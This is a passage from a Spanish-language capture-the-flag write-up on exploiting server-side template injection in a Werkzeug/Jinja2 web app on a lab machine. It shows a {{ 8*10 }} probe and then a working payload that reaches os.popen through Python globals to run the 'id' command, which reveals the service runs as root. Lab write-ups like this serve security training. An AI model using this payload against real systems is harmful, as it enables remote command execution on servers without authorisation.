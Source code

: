 Veamos si reproduce la siguiente multiplicación:

{% raw %}
```bash
{{ 8*10 }}
```
{% endraw %}

<p align="center">
<img src="/assets/images/THL-writeup-theFirstAvenger/Captura20.png">
</p>

La respuesta se ve en el input y vemos el payload que se ejecutó.

Ahora, probemos el siguiente payload que ejecuta el comando **id**:

{% raw %}
```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
{% endraw %}

<p align="center">
<img src="/assets/images/THL-writeup-theFirstAvenger/Captura21.png">
</p>

Excelente, el **Root** es quien está ejecutando el servicio **Werkzeug**.

Como la página web está dentro de la máquina víctima y no dentro de un contenedor, cualquier cambio que queramos hacer, se verá reflejado localmente.
